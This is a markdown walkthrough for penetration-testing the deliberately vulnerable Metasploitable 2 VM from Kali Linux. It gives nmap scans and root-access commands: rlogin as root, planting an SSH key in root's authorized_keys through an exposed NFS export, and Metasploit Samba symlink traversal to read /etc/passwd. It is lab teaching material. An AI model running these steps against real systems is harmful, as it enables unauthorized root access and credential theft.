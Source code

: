 ```yaml
---
title: Metasploitable
published: true
---
```

The following information shows the **Metasploitable walkthrough**

## [](#header-2)Introduction

   Metasploitable is a Linux based operating system that is designed in a vulnerable way so that the pen-testers and ethical hackers can test their skills. There is no security to the server hence it is always better to _run the metasploitable in a virtual environment_, as anyone can logon into it.
  
### [](#header-3)Requirements
  
   1. Download the vulnerable OS from the following link, **[metaploitable_download_link](https://sourceforge.net/projects/metasploitable/files/Metasploitable2/).**
   2. Kali Linux can be downloaded from the link, **[Kali_Linux_download_link](https://www.kali.org/).**
   3. Virtual Environment, here example is shown using VMware Workstation.
   4. Good understanding of Metasploit Framework(MSF).
   5. Linux commands usage.
       Install both the Operating Systems and run it.
      
      **_NOTE: Installation steps of Kali Linux can be found here,[Kali_linux_insatllation_guide](another_page)_.**
      
   When the OSes installed properly, one can encounter as shown in the following image,
   

# [](#header-1) image 
   
   
   Login into the metasploitable terminal, Username and password would be given(commonly, it is msfadmin)
     
   Get the IP address, `# ifconfig`
   Use that IP_address and perform the following steps: 
        
	1. Scanning
        
        2. Vulnerability identification/Enumeration
        
        3. Exploitation and Access Gaining 

# [](#header-1) Network Penetration Testing

# [](#header-1)Step 1: Scanning 
   
   In this we need to find the ports that are open and also services running on that each port using which exploitation is done.

   * Open a terminal in Kali Linux and use **_namp_** to perform the Network Scanning
   * Enter the following command, `# nmap -sS -Pn -n ip_address`
     - by default NMAP scans upto 1000 ports, to scan all the ports use either `-p`- or `-p 1-65535`
     - the above command offers the TCP SYN scan, to scan the UDP ports use `-sU`
     - the command also skips the host discovery(no Ping) and DNS resolution
            
      The results can be similar to the following image,
      
      # [](#header-1) image 
         
        ![](https://assets-cdn.github.com/images/icons/emoji/octocat.png)



# [](#header-1)Step 1: Enumeration

nmap -Pn --script vuln 192.168.1.105

   

# [](#header-1)Step 1: Exploitation and Acess Gaining

   There are various to gain access to the Metasploitable target machine. Lets try them as follows,

**_METHOD 1:_**
   
   Ports 512,513,514 offers the ‘r’ services, it means that remote access can be gained from any host using the IP address.
   
   So open a terminal and type, 
   
	   # rlogin -l root ip_address	

	// if asks for password then probably rsh-client is not installed, else you will be in that target machine.

	   # apt install rsh-client

	   now execute, # rlogin -l root ip_address	

	// should work perfectly if that service is open


**_METHOD 2: SSH LOGIN_**

   For this we need to generate the RSA key and kinda have to copy that key to that target machine using rpcbind and NFS (port 2049) mount the NFS export (for exporting), and add our key to the root user account's authorized_keys file.
      
	   # apt update

	   # apt install rpcbind nfs-common

	   # rpcinfo -p ip_address

	   # showmount -e ip_address

	   # ssh-keygen	//just press enter for the questions asked for default settings

	   # mkdir /tmp/r00t

	   # mount -t nfs ip_address:/ /tmp/r00t

	   # cat ~/.ssh/id_rsa.pub >> /tmp/r00t/root/.ssh/authorized_keys

	   # umount /tmp/r00t

	   # ssh root@ip_address

         
**_METHOD 3: SMB 445_**

   Samba, can also be used as a backdoor to access files that were not meant to be shared when configured with a writeable file share and "wide links" enabled. I used Metasploit Framework to compromise the target.
	
	   On msfconsole,

	   > msf use exploit/unix/misc/distcc_

	   > set rhost 192.168.214.129

	   > exploit

	   On another terminal

	   # smbclient -L //ip_address

	   On msfconsole,

	   > use auxiliary/admin/smb/samba_symlink_traversal

	   msf5 auxiliary(admin/smb/samba_symlink_traversal) > set rhost ip_address

	   msf5 auxiliary(admin/smb/samba_symlink_traversal) > set SMBSHARE tmp

	   msf5 auxiliary(admin/smb/samba_symlink_traversal) > exploit

	   On terminal,

	   # smbclient  //ip_address/tmp
				// now you will have the smb shell access, try #cd rootfs #cd etc and #more passwd


```
The final element.
```
